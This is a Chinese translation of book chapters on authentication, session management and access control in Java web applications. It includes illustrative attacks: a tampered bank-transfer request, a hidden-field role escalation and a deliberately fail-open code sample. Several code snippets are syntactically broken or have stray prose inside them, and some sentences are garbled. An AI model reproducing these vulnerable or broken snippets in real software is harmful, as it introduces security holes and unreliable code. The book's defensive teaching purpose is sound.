软件开发者经常被要求支持“记住我”登录功能。这个功能本质上是破坏身份验证层中所有良好和公正之处的破坏者。为了支持“记住我”功能，你本质上需要让用户登录几天、几周或几个月，这与我们讨论过的关于正确限制身份验证会话的所有背道而驰。此外，“记住我”功能通常容易受到重放攻击。它们通常要求你在无过期的 cookie 中存储凭据或会话标识符。即使存储在 cookie 中的凭据使用了地球上最好的加密技术，窃取了你 cookie 的攻击者也可以在自己的浏览器中重放该加密 cookie，利用你的服务器进行解密，并破解账户。如果业务强制你支持“记住我”功能，请考虑只记住用户名并在登录屏幕上预填充它。避免实现存储用户凭据、或强制你维护长时间活跃的身份验证令牌或身份验证会话的“记住我”功能。

## 多因素认证

深呼吸，让自己静下来，放下书，并随我重复：密码作为唯一身份验证凭据的时代已经结束了。你能为安全身份验证机制支持的最基本的特性就是多因素认证。多因素（或多步）认证涉及在登录时（以及重新身份验证时）要求两个或更多因素。这包括用户知道的某个（如密码），以及用户拥有的东西（如多因素令牌或移动应用程序）或用户特有的特征（如视网膜扫描或指纹）。

实现多因素认证相当直接。几乎每个主要的 Web 应用已经支持了它，或者正在朝着那个方向发展。多因素认证降低了密码被盗的影响，在不需要账户锁定的情况下缓解了暴力攻击，并总的来说以一种比仅用户名密码强得多的方式保护了你的 Web 应用大门。

## 种子存储

首先，谁在存储你的多因素令牌生成器种子的副本？这些种子用于保持令牌和服务器之间多因素令牌值的同步。如果被盗，种子将被用于生成有效的多因素令牌值。2011 年 3 月，`RSA` 被一个黑客入侵，黑客从他们的 `SecurID` 产品中盗走了多因素令牌。三个月后，`RSA` 承认被入侵，且入侵中使用的信息被用于攻击洛克希德·马丁，并将为几乎所有的客户更换 `SecurID` 令牌。考虑不要第三方供应商控制你的身份验证或多因素种子的解决方案！

## 你将令牌发送到哪里？

在用户登录期间识别身份，且用户密码经过检查并证明有效（用户知道的东西），接下来你通过带外通道发送令牌或其他安全消息（第二个因素）。用户需要验证她确实拥有所配置的设备或通道（用户拥有的东西），以完成登录过程。

电子邮件是令牌验证的一种潜在途径。电子邮件验证通常表现为用户必须点击的链接，或用户必须在网站上输入以进行登录的一次性代码。遗憾的是，大多数电子邮件没有加密，且不应被视为数据传输的安全机制。电子邮件是多因素认证最糟糕的方法。

SMS 是令牌验证的另一种选择。在作为多因素认证的一部分时，务必验证账户所有者的手机号码以进行 SMS 验证。SMS 的优点是能确保你的用户为了登录确实拥有他们的移动设备。还有一些移动应用程序（例如 Twitter 使用的那种），可以设置为在用户尝试登录时接收推送通知。用户可以直接在手机应用程序中批准或拒绝登录请求，而无需处理数字代码。

当然，如果某人的手机丢失或被盗，攻击者将获得身份验证令牌。如果用户的手机被盗，他们的第一个反应会是访问他们的多因素账户吗？可能不会，但至少这种方法要求攻击者执行额外步骤并针对性地针对你的受害者，而不是撒网式的。

其他移动应用程序尝试消除从服务器发送和接收通知的需求。这些应用程序使用算法根据时间戳和配置时设置的预约定种子来生成令牌流。它们允许多因素令牌生成，而无需从服务器通过网络向用户发送任何数据。

最安全的多因素机制是专用硬件令牌。硬件令牌使用相同的方法，根据某些算法基于种子和时间戳动态生成令牌。这些令牌通常需要用户输入代码来激活令牌，这提供了攻击者登录时必须知道的额外信息。

## 联邦身份与 SAML

`SAML`（安全断言语言）是在两个不同系统（通常在不同组织之间）之间联邦化或委托身份验证和访问控制的方法。这意味着什么以及我们为什么要使用它？

## 52 Iron-Java：构建安全的 Web 应用

假设你的网站获得了极大的关注度。例如，你可能建立了一个网站，为人们购买特殊灯具和其他照明产品提供了一种新颖且巧妙的方式。现在假设该网站的人气达到了史诗级的程度。现在假设一家大公司希望你的网站为他们的数千名员工提供特殊的访问权限，以便购买用于促销目的联名灯具。这种访问权限可能包含非常机密的信息（你把灯具卖给了谁？），并且只有公司成员才能访问。

通常情况下，你的业务伙伴需要在你的网站上为这数千名员工创建并管理账户及密码。每当招聘一名新员工时，都需要在你的网站上创建一个新账户。每当员工离开公司时，就需要删除其账户。对于一家拥有数千名员工的公司来说，这很快就会变成一场管理噩梦。

如果你的合作伙伴不需要在你的网站上创建和管理数千个用户账户，而可以在他们自己的系统中管理这些账户呢？假设你与合作伙伴达成了一种约定（利用单点登录技术），用户只需要登录合作伙伴的身份提供者，并根据预先的“握手”，由于合作伙伴断言该用户是合法的，该用户将自动通过验证进入你极棒的新灯具网站？这就是 `SAML` 和身份联邦提供的核心。

遗憾的是，`SAML` 既不简单，true真正的标准。你想要集成的每个网站或服务在实现方式上都有细微的。良好的合作伙伴会提供关于其 `SAML` 服务如何工作的详细需求。这是一项重要的技术，你将在各种联邦和单点登录服务中遇到它。

## OAuth 基础

开放授权（`OAuth`）是一种允许你的 Web 应用代表你的用户向其他服务进行身份验证的协议。该协议允许你的 Web 应用代表用户向 `OAuth` 服务进行身份验证，而无需存储任何凭据。如有必要，你的 Web 应用可以在你的用户甚至没有登录你的应用程序的情况下向另一个服务进行身份验证。例如，如果你希望你的网站代表用户发布“推文”，而永远不需要知道（以及你的用户的）密码或其他敏感信息，`OAuth` 就是实现这一成就的协议。

## 第 2 章：身份验证与会话管理 53

`OAuth` 是一种允许你的 Web 应用的用户向其他服务进行身份验证，而无需向应用程序本身暴露任何凭据的协议。例如，考虑一个代表其用户“推文”的 Web 应用。`OAuth` 允许你的 Web 应用在 Twitter 上直接验证用户。随后，你的应用程序通过了该服务的验证，并可以执行用户授权的任何操作（如推文、读取推文等）。通过这种方式，你的应用程序现在可以在另一个站点上使用用户账户，而完全不需要存储任何凭据或敏感信息。

## 其他身份验证安全考虑

在构建身份验证层时，这里有一些额外考虑的步骤：

1. 针对 `SSL/TLS` 的攻击通常针对 cookie 值，因此针对会话标识符。在构建自定义会话处理机制或重新验证后，考虑频繁更换会话标识符。特定会话有效的时间越短，攻击者利用它的时间就越少。

2. 为你的用户提供一种显著的方式查看他们最近的登录情况，包括登录时间、注销时间、IP 地址，理想情况下还有位置。如果用户可以看到这些信息，他们可以帮助你发现漏洞。

3. 当更改密码、发生多次登录失败、用户个人资料或权限更改，或者身份验证工作流发生其他重大变化时，通过电子邮件通知你的用户。

4. 在用户个人资料中，显示所有活动会话或其他服务的联邦关系，并提供关闭某些会话或关系的方法，特别是如果你支持 `OAuth`、“记住我”或任何长效身份验证会话时。

5. 提供阻止从某些地理区域登录的能力。

6. 提供在特定时间段阻止登录的能力。

7. 构建一个经过良好审查的集中身份验证服务和/或库，许多项目可以安全地利用。

## 54 Iron-Java：构建安全的 Web 应用

`OAuth 1.0` 基于密码学根基，但容易受到会话固定和其他问题的影响。³⁰ `OAuth 2.0` 目前正在被广泛使用，并被许多主要的消费者级网站（如 Facebook、Twitter 和 Google+）使用。由于其易用性，`OAuth` 在企业移动身份验证方面也取得了进展。

尽管 OAuth 的名为开放授权（访问控制），但它首要意义上仍然是一个身份验证标准。在许多实现中，`OAuth` 确实允许用户授予应用程序以执行诸如访问数据和好友列表、以及代表你在社交网络上发布内容等操作。通过这种方式，它就像是传统授权方案的反面（正如我们在下一章中讨论的那样），因为它强制执行应用程序的权限，而不是强制执行用户的权限。

有关 `OAuth 2.0` 标准的信息，请访问 http://tools.ietf.org/html/rfc6749。

## 扩展阅读

我们关于会话管理的最喜欢的资源之一是 Raul Siles 编写的来自 OWASP 基金会的“会话管理备查表”³¹。这是从零构建复杂的会话管理机制之前的良好起点。该系列中的另一个备查表是 Eoin Keary 编写的“身份验证备查表”³²。`Apache Shiro` 框架还提供了一种相当详细且可配置的身份验证机制³³。

## 总结


身份验证层安全是复杂的，需要精确的设计。确保所有身份验证和随后的验证请求都通过安全的传输完成。通过适当的 cookie 设置和超时正确地保护会话。强制用户在关键的应用边界处重新身份验证。使用 `PBKDF2`、`bcrypt` 或 `HMACs` 进行密码存储。构建安全的忘记密码功能。这些是身份验证和会话管理的本质安全考虑因素。

> ³⁰ `hueniverse.com/2009/04/explaining-the-oauth-session-fixation`
>
> ³¹ `https://www.owasp.org/index.php/Session_Management_Cheat_Sheet`
>
> ³² `https://www.owasp.org/index.php/Authentication_Cheat_Sheet`
>
> ³³ `https://shiro.apache.org/java-authentication`

# 第 3 章：访问控制

访问控制（或授权）是限制用户仅访问其允许的功能和数据的过程。最小权限原则（`POLP`）定义了良好的访问控制机制应该交付的核心。每个程序和每个特权用户都应该使用完成任务所需的最小权限来运行。

最小权限原则不仅适用于应用程序内的访问控制，正如我们在书的其他地方讨论的，它还应该应用于架构的每个方面，作为深度防御策略的一部分。

即使在简单的 Web 应用中，访问控制也出现在许多层：应用程序内部、Web 服务器部分、`JEE` 容器、其安装的操作系统、数据库，以及每一层都有自己风格的访问控制。本章关注你作为开发者需要在 Java Web 应用中构建的特定应用程序访问控制。我们不是在描述操作系统、路由器或其他网络设备所需的访问控制机制。这些每种所需的访问控制形式与 Web 应用或服务在实现和设计上都非常不同。

与 SQL 注入或点击劫持等其他风险不同，对于“我应该为我的应用程序设计什么种访问控制？”这个问题，没有简单的答案。这实际上是开发者的问题。当有许多实现访问控制的方案，并且似乎每个框架都有自己的实现时，做出正确的选择通常是困难的。有时，开发者只是使用其应用程序框架自带的访问控制机制，结果发现内置的访问控制 API 无法满足他们的需求。更糟糕的是，开发者在项目后期甚至才考虑访问控制，如果根本没有考虑的话。有些人可能会说：“管他的呢，让每个人都是管理员吧！”但不要向黑暗面投降。因为访问控制具有很强的设计性，并成为软件安全神经系统的不可或的一部分，因此在项目的最早期阶段仔细考虑访问控制是非常关重要的。

总而言，软件越简单，基于内置框架的访问控制模式对你来说就越可行。然而，反之亦然。你的软件越复杂，你就越可能需要针对你的特定应用程序或业务编写自定义代码来构建部分或全部的访问控制机制。

## 身份识别与访问控制

在继续之前，让我们先澄清一些术语。授权（Authorization）和身份验证（Authentication）是你的安全范式中两个独立但相互相关的部分。身份验证是验证用户身份的过程。授权，或称访问控制，是确定已验证用户能够访问哪些资源的过程。为了让访问控制能够正常运行，你必须首先有一个经过安全验证的用户，如图 3-1 所示。有关身份验证的更多信息，请参阅第 2 章。

重要的第一步是定义组成访问控制机制的核心元素。访问控制是软件中的安全层，它限制用户只能访问经过授权的功能和数据。让我们拆解这个定义。访问控制是：

- ...一层防御层：访问控制是所有软件中的核心控制。
- ...限制性：默认情况下，用户没有任何权限。
- ...用户：用户必须已经通过了身份验证。
- ...仅限访问授权的功能和数据：用户通过角色定义，或者被赋予一系列权限或能力列表，允许他们访问某些数据或功能。



图 3-1. 访问控制工作流

| 访问控制策略： | 环境条件： |
| --- | --- |
| • 规则 | • 时间/日期 |
| • 权限 | • 系统状态 |



图 3-2. 基于属性的访问控制 (`ABAC`)

让我们深入研究访问控制的术语，并定义图 3-2 所示的一些核心术语：

- **主体（Subject）**是指发起访问请求的用户或服务/应用程序。
- **主体属性（Subject attributes）**：这些是定义请求的用户或实体的属性。这包括身份验证状态、用户所属的组或多个组、用户所属的角色或用户组，以及关于发起请求实体的其他信息。
- **组（Group）**：组是一种基本的组织结构。它可以是一组用户、一组活动，或其他相关的访问控制组（IT 支持组；营销组；“编辑汽车”权限组，包括查看汽车、编辑汽车、更新汽车）。
- **角色（Role）**：一种功能性抽象，用于唯一描述具有相似或独特职责的协作者。虽然特定角色是某个系统独有的，但某些角色存在许多系统中——例如，内容编辑员、内容创建者、内容发布者、系统管理员等。角色与组的区别在于，角色赋予了在许多情况下可能由组织不同组或区域的许多个人执行的功能。角色也可以从其他角色继承。例如，如果用户具有修改对象的能力，那么该用户也具有隐式的读取权限。
- **访问控制规则或权限（Access control rules, or entitlements）**：访问控制规则或权限是一个逻辑决策或一系列决策，用于确定主体是否允许访问某些活动、功能或数据。取决于访问控制类型，这些规则可以定义对某些功能、对象或组合的访问。
- **访问控制策略（Access control policy）**：访问控制策略是构成你软件的所有访问控制规则的集合。
- **策略信息点（PIP）**：这是一个通用术语，描述为做出访问控制决策可能需要的任何属性源-用户数据；对象数据；环境数据（如时间或位置）等。
- **操作（Action）**：操作是某种系统功能，例如读取文章、修改文章、创建新文章、执行批处理、调度备份等。
- **策略执行点（PEP）**：策略执行点是拦截访问控制请求并执行决策的区域。
- **策略决策点（PDP）**：策略决策点是执行访问控制检查的区域，它接收所有输入并做出决策（注：此处原文表述略有跳跃，意指其为执行决策的逻辑）。
- **策略管理点（PAP）**：策略管理点是创建、管理和存储访问控制策略的区域，用于策略策略（注：此处为描述策略，原文处可能存在断句或排版错误）。
- **对象（Object）**：对象是受操作对象的类型。
- **对象属性（Object attributes）**：这些是定义被操作对象的属性。

让我们将其整合起来。以下是访问控制的 Java 伪代码：

```java
public final AuthorizationFilter implements Filter {
    /**
     * 这里是策略执行点 (PEP)。
     * 访问控制检查在此进行
     */
    public void doGet(ServletRequest request, ServletResponse response, FilterChain chain) {
        // 访问控制检查
        if (canAction(user, object)) {
            // 跳转到请求页面
        }
        // 返回“访问被拒绝”屏幕
    }

    /**
     * 这里是策略决策点 (PDP)。
     * 它接收所有输入（策略信息点 PIP）并评估。
     */
    public boolean canAction(User user, Object object) {
        // 使用 PIP 进行决策
        if (object.isTopSecret()) {
            // 主体属性
            if (user.hasTopSecretClearance()) {
                return true
            }
        } 如果不满足积极条件，安全失败
        return false;
    }
}
```

每种访问控制设计类型都会涉及这些核心组件之间的不同交互。在某些访问控制类型中，单个组件会合并之前定义的概念。例如，在基于角色的访问控制 (`RBAC`) 中，`PIP`、`PEP` 和 `PDP` 实际上是合为一体的而在基于属性的访问控制 (`ABAC`) 系统中，这些都是独立的软件组件和服务。

在讨论访问控制的积极机制之前，让我们谈谈攻击者滥用访问控制设计或实现的方法。

## 访问控制攻击

针对应用程序访问控制机制的最常见攻击形式是权限提升。这是当一个（通常已身份验证的）攻击者能够操纵输入，使其访问本无法访问的功能或数据时。例如，在垂直权限提升中，攻击者可能注册一个标准用户账户，并通过恶意输入或其他技术访问管理功能。这通常表现为直接浏览已知的（或猜测的）管理 URL。某些工具可以快速遍历长名称列表或随机 URL 路径，寻找与标准“404 未找到”页面不同的响应。这就是为什么“通过隐蔽实现安全”并不是有效的访问控制策略。

访问控制的另一种攻击是水平权限提升攻击。在水平权限提升中，两个用户可能具有相同级别的权限，但攻击者可能利用一个账户恶意访问另一个用户的私有数据。这可以通过操纵银行转账请求中的源和账户号码来实现：

```http
POST /accounts/transfer HTTP/1.1
Host: www.vulnerable.com
Cookie: JSESSIONID=3C7DD859EEBEC05D4FA04BC64EC565
Content-Length: 1073
amount=10006&from=10153&to=31328
```

62 铁甲 Java：构建安全的 Web 应用

## 访问控制反模式与设计缺陷

访问控制机制有许多出错的方式。

## 反模式 1：避免使用访问控制功能

访问控制设计的第一个缺陷就是不使用它。在多次审查中，我们遇到过一个所有用户都拥有完全访问权限的应用。当被问及访问控制机制时，这种情况下的答案往往是“我们以后会加”。失败（FAIL）。访问控制是应用深度防御策略的核心，其实实现需要在整个软件开发生命周期中都经过仔细考虑。

## 反模式 2：使用请求数据进行访问控制策略决策

另一个常见的缺陷是访问控制完全依赖客户端数据来确定用户的角色或权限。攻击者使用拦截代理或类似工具修改请求数据是非常轻而易举的。攻击者可以修改 HTTP 请求的任何部分，使得 `ROLE=USER` 的 cookie 很容易被修改为 `ROLE=ADMIN`。或者看这个表单片段，用户的角色是由一个隐藏变量驱动的：

```html
<form method="POST" action="submit-comment">
  <input type="hidden" name="role" value="user">
  <input type="hidden" name="userid" value="132">
  <input type="text" name="title" value="My Comment Title">
  <input type="text" name="body" value="My Snarky Comment">
  <input type="submit" name="submit" value="Submit Comments">
</form>
```

在这种情况下，将 `role` 参数更改为 `admin` 将破坏应用的访问控制，并允许评论跳过标准的审核流程。这不仅是访问控制的失败，也是身份验证和会话管理的失败，因为用户 ID 是根据用户的权限驱动的。失败（FAIL）。我们绝不能仅基于客户端数据（如 cookie、隐藏表单字段、URL 参数或任何来自请求的其他内容）来做出访问控制决策。

基于这种思路，你绝不能依赖于仅在 JavaScript 中做出的访问控制决策，例如根据某些变量或 cookie 的值来决定是否渲染管理员专用的链接。

可以安全地假设所有的客户端代码都会被检查，请求的任何方面都可能被攻击者获取并修改。访问控制决策必须来自服务器端的访问控制数据。

## 反模式 3：依赖隐性进行访问控制

我们在职业生涯中遇到的另一个设计缺陷是在应用的访问控制设计中依赖隐性（实际上，我们曾参与过一个依赖这种“安全性”的大型应用）。例如，你如何看待下面这个保护敏感文件的 URL，而它没有任何其他访问控制机制保护的情况下？

`www.mydocuments.com/download/9982e09425d19aa1b122da5f1d836/the_master_plan.plt`

尽管这看起来很难猜，但它依赖于“隐性安全性”，这几乎总是一次灾难性的失败。URL 可能会在有人浏览时通过窥视屏幕被“偷看”；它可能会泄露在浏览器历史中；可以被标记并通过邮件发送；还会出现在代理和 Web 服务器日志中。隐性不等同于访问控制，“隐藏”的 URL 会随着推移变得可见。你需要更好的方法。

## 反模式 4：硬编码策略

……授权策略通常被硬编码到应用代码中，这使得适应环境变化变得困难且昂贵。细粒度的授权和权限需要与传统的权限不同的方式进行管理。从软件开发过程初期开始，就应该对授权需求给予足够的关注。（`www.infoq.com/news/2010/10/javaoise2010-fga`）

任何访问控制系统的主要组件之一都是策略执行点（Policy Enforcement Point, `PEP`）。这是应用代码中添加访问控制检查的区域。下面的示例说明了许多 Java 应用中常见的常见的反模式之一：在策略决策点（Policy Decision Point）在代码中编写自定义的访问控制检查。

```java
if (
  user.isRole("ADMINISTRATOR") ||
  user.isRole("EDITOR") ||
  currentArticle.hasAuthor(user)
) {
  editArticle(currentArticle);
}
```

这里的关键设计缺陷（也是许多软件框架中最显著的特征之一）是访问控制策略与应用代码的合并。这种访问控制策略的“硬编码”会导致各种挑战。

当你这样在应用代码中“硬编码策略”时，每当访问控制策略变化，你就必须发布软件的新版本。这使得确保每个都进行了类似的检查变得非常困难。也许你更改了决定是否显示“删除公司”按钮的检查处的策略，但你还记得更改从数据库中删除该实体的实际操作的策略吗？

这种反模式使得如联合品牌和定制等通常本质的任务几乎不可能，或者至少非常昂贵，因为需要同时维护应用的多个分支或派生。

在对 Web 进行安全审计时，你通常会在软件所有层的应用代码中发现成百甚至上千个硬编码的角色检查。当安全专业人员尝试审计复杂软件的访问控制策略时，他们往往必须仔细研读。

## 反模式 5：手动向每个端点添加访问控制

另一个常见的访问控制反模式是应用需要手动向每个端点添加访问控制逻辑。这极易出错，因为很容易忘记在新的端点或方法中添加检查。

当安全审计员审查你的代码并询问访问控制时，你的回答是“是的，我的策略在代码里，读一下就行”。如果是这样，就失败了。

## 反模式 6：开放失败（Fail Open）

访问控制机制的另一个常见问题是“开放失败”缺陷。在审查 Web 应用的访问控制时，标准的质量保证（Q/A）流程可能会验证标准用户行为是否限制了访问。然而，正常运行之外的某些场景会导致程序错误，从而导致访问控制机制失效。例如，考虑 Java 中请求参数的处理。在正常使用中，`getParameter()` 将返回空字符串或提交的数据。但如果攻击者使用拦截代理并完全删除了参数呢？`getParameter()` 方法将返回 `null`，这是程序员可能没有做过准备的。返回的 `NullPointerException` 可能会导致失败，从而授予访问权限。这看起来不太可能，但确实会发生。

开放失败访问控制示例：在处理来自请求的表单输入时，有三种可能性：

- 参数可能被留空，导致空字符串。
- 参数可能输入了数据，这将返回包含提交数据的字符串。
- 攻击者可能使用拦截代理删除整个参数，导致结果为 `null`。这可能会导致 `NullPointerException`，如果处理不当，可能会绕过某些访问控制检查。

想象下面的代码，开发者从未考虑过调试参数可能为 `null` 的。如果 Q/A 只测试网站的“正常”运行，他们也会错过这一点！

```java
boolean hasAdmin = false;
try {
    // 假设它是 true。
    if (executingAdminCommand ( ))
```

# 坚不可的 Java：构建安全的 Web 应用

```java
hasAdmin = true;
// 如果 debug 参数从请求中移除
// 并变为 null 会发生什么？
// 这里真的应该使用 Yoda 条件（Yoda Condition）；
if (request.getParameter("debug").equals("true")) {
    log.debug("hasAdmin == true");
}
if (!subject.isRole("ADMINATOR"))
    hasAdmin = false;
}
catch (Exception e) {
// 用户现在拥有管理权限，哎呀
if (hasAdmin) {
    doSuperSensitiveAdminThings();
}
```

## 积极的访问控制模式

以下是一些指导原则，可以帮助你构建一个稳健且安全的访问控制机制。

## 积极模式 1：考虑集中化的执行层

访问控制系统的关键机制之一是在你在代码的何处应用访问控制检查——策略执行点（Policy Enforcement Point，简称 `PEP`）。实现这一点有许多方法，但理想情况下是使用一个集中化的组件强制所有请求都通过该组件，而不是由开发者手动在应用程序的各个地方添加检查。


Java 拥有一个优秀的执行层，即 Java EE 请求过滤器（request filter）。过滤器提供了拦截、修改、重定向或阻止请求和响应的能力。它们可以在 Web 应用程序部署描述符（`web.xml`）中配置为应用于某些特定的 URL 路径，这样访问控制策略的更改就不需要修改应用程序代码。例如，仅允许管理员级用户访问网站管理部分的配置可能如下：

```xml
<filter>
    <filter-name>adminFilter</filter-name>
    <filter-class>com.codemagi.AuthorizationFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>adminFilter</filter-name>
    <url-pattern>/admin/*</url-pattern>
</filter-mapping>
```

充分利用这种范式的应用程序可能具有如下 URL 结构：

- `/admin`：仅限超级用户级访问。
- `/company/123`：任何具有查看公司 123 数据权限的人都可以访问。
- `/company/123/edit`：只有可以编辑公司 123 的用户才能访问这些页面。
- `/company/123/delete`：删除公司限制为超级用户原始创建者。

“默认拒绝”（deny-by-default）设计在未为该请求设置或配置策略时，会自动拒绝该请求的访问。考虑使用 Java 过滤器确保所有请求都通过你的访问控制执行层。当开发者为你的系统添加新功能时，执行层应自动拒绝所有人的访问，除非你的访问控制模型中添加了该功能的规则。当应用程序的策略执行层是一个 Java 过滤器时，实现这种设计要容易得多。这种默认拒绝的设计使你的访问控制模型更加稳健，遗漏访问控制检查也会更少。

## 提示

> 默认拒绝过滤器允许你对所有应用程序页面执行一致的授权检查例程。当集中化的过滤器类驱动访问控制执行时，比授权逻辑散落在整个代码中要更容易保持一致性。

过滤器允许你轻松拒绝针对特定 URL 路径的或来自某些 IP 地址的请求，或者防止非公司内网的人访问管理功能。这种防御可以通过编辑配置文件来轻松修改，如果设计得当，则不需要更改代码。此外，这将使得审计服务器访问日志中的安全事件变得简单得多。

## 积极模式 2：构建集中化的访问控制引擎/决策者

虽然策略执行层负责应用访问控制检查，但策略决策点（Policy Decision Point，简称 PDP）负责执行实际工作，验证主体是否有权执行所请求的操作。同样，这应该是一个集中化的服务，而不是散布在整个代码库中的检查。

## 积极模式 3：服务器端可信数据应驱动访问控制决策

访问控制决策所需的极少数据应来自请求。用户/主体的身份信息应存储在服务器端的可信会话（session）中。主体的元数据应全部在服务器端获取。策略规则和其他策略信息点（Policy Information Points）应来自可信的服务器端资源。唯一应该来自请求（因此可能被篡改）的数据元素应该是对象的标识符和所请求的功能。从请求中获取角色数据是一种极糟糕的做法，因为攻击者可以轻松地让自己成为管理员或其他特权角色！

## 积极模式 4：对主体、对象、操作和其他元数据分组

为了使管理更具可行性，分组是良好访问控制的基础。至少，主体和用户可以进行分组，这样策略规则只需要应用于组，而不是单独应用于每个个人成员。对于某些类型的访问控制设计，可以一起管理的操作和功能也是分组的良好候选对象。例如，一个汽车管理程序可能有 `viewCar`、`diagnoseCar` 和 `updateCar` 等功能。所有这些功能都可以合并到一个名为“`carManagement`”的“功能组”中，以便于将多个功能应用于一个主体或主体组。分组还使得对用户群的策略审计变得更容易，因为你不需要担心单个用户是否拥有某种权限——你将根据他们所属的一个组或多个组来确定。

## 积极模式 5：能够实时更改用户的权限

当系统更改访问控制规则（即用户的权限）的瞬间刻，这些更改应该立即发生。作为性能和安全之间的权衡，我们构建了在登录时缓存访问控制策略的系统。在这样的系统中，在下一次请求时清除访问控制也是明智的。

## 积极模式 6：访问控制策略的表达能力

访问控制机制需要能够建模应用程序所需的功能。具有很强表达能力的访问控制机制在实现这些策略时，可以对各种来源建模。

## 基于角色的访问控制

> 注意：统一 NIST RBAC 模型于 2000 年发布，并在 2004 年成为基于角色的访问控制 INCITS 标准（INCITS 359）。

# 第 3 章：访问控制

`RoleInterceptor` 保护单个操作，以确保请求的用户拥有正确的角色。

```xml
<!-- 只允许 admin 和 member 角色 -->
<action name="someAction" class="com.examples.SomeAction">
  <interceptor-ref name="completeStack"/>
  <interceptor-ref name="roles">
    <param name="allowedRoles">admin, member</param>
  </interceptor-ref>
  <result name="success">good_result.ftl</result>
</action>
```

任何基于角色的访问控制系统的背后都有某种持久化层，用于存储每个用户的这些策略数据。之前的示例都是 XML 配置或某种程序化的 RBAC 表示。此外，存储映射到每个用户的角色关系也是必要的。图 3-3 是一个示例数据库架构，可以用于像之前演示的那样建模的用户、分组和角色关系。



图 3-3. 建模用户、分组和角色关系的数据库架构

可选情况下，可以添加 `subject role xref` 表，允许用户直接与角色关联，而无需分组。然而，这将增加策略决策点（Policy Decision Point）处所需检查的复杂性。

将角色映射到用户是一个易于理解和设置的模型。这使得 RBAC 策略的“管理”变得简单易于维护。RBAC 还允许在大多数框架中轻松配置执行点。对于基本的分级访问控制，RBAC 表现良好。尽管易于使用，当应用程序的授权需求变得更加复杂时，RBAC 会显得力不从心。

## RBAC 的局限性：特定数据/上下文访问控制

RBAC 的另一个问题是，现代实现没有解决特定数据或特定上下文的访问控制需求和规则。例如，你可能有几个具有管理员权限的用户，但如果你想限制他们只能访问特定的组织或数据库中的特定行呢？或者一个博客应用程序，作者应该拥有对自己的文章的编辑权限，但不拥有他人的文章。RBAC 无法解决这些在现代 Web 应用开发中频繁出现的特定数据需求。为了将数据上下文需求与访问控制相结合，你最终得到的访问控制代码如下：

```java
if (user.hasRole("ADMINISTRATOR")) {
  int companyId = Integer.parseInt(request.getParameter("cId"));
  Company company = getCompany(companyId);
  if (company.hasAdmin(user)) {
    doCoolAdminThings();
  }
}
```

每当你想要更改策略时，代码就需要再次更改！例如，如果你想用时间限制来限制该功能呢？或者允许其他角色执行此功能？如果你需要在应用程序的多个区域执行此检查呢？你很快就会得到一种不仅难以理解（也称为面条代码）而且难以维护的访问控制机制。基于角色的访问控制适用于访问控制功能需求适中的应用程序，但它确实有其局限性。

> 注意
>
> Chris Schmidt 在 2009 年写过一篇关于基于角色的访问控制局限性的文章，内容非常出色且简练。他不是唯一讨论现代软件框架中实现的基于角色的访问控制局限性的开发者或分析师。Chris 在此处的观点很好。如果你仔细一想，应用于软件应用程序的 MVC 模式在当时是具有革命性的。应用程序安全模型也需要发生这种情况。今天，你的安全模型被嵌入在应用程序中，模糊了你的代码。你需要将安全模型和实现与应用程序解耦。这有很大的改进空间。

## 多租户与访问控制

多租户 Web 应用程序允许特殊的用户组拥有应用程序的特殊功能或私有应用程序实例。例如，假设你有一个基于 Web 的日历应用程序，允许一家公司注册桑拿的用户。虽然所有公司可能竞争同一个时间段，但来自同一家公司的用户组只能看到自己公司的预订详情。对一家公司的预订具有完全访问权限的用户，对另一家公司可能只有查看权限，只能看到时间段是否被预订或空闲。在面对多租户时，“这个用户是什么角色？”这个简单的问题已经不够了。问题变成了“这个用户在 4315 公司扮演什么角色？”或“这个用户在文章 12323 上拥有什么能力？”即使这些可能不足以回答更依赖于时间、地理或其他更复杂上下文的复杂访问控制问题。

## 基于权限的访问控制

我们开发者被要求构建的 Web 应用程序随着时间的推移变得越来越复杂。随着复杂性的增加，需要更好的访问控制设计。因此，当你将 1990 年代简单的双角色 Web 应用与现代多租户门户 Web 应用进行比较时，“什么是访问控制？”这个问题发生了显著变化。

在当今复杂的应用程序中，授权决策需要访问多个源。授权决策需要来自环境（地理位置、时间等）的数据，它们需要关于主体的信息，它们需要用户想要执行的功能的信息，它们需要用户正在访问或更新的数据信息。

## 基于权限的访问控制

基于权限的访问控制是 Apache Shiro 定义的术语，它解决了应用程序中执行点如何编码的问题。不可否认，“权限（Permission）”是一个过度负载的词，可以代表许多含义。在这种背景下，“权限”意味着执行点在代码中的样子。基于权限的访问控制涉及基于权限的访问检查（与验证角色的检查相反）。当你的执行点是基于权限时，后端访问决策（策略决策点）可以使用 RBAC、ABAC 或其他方式实现。

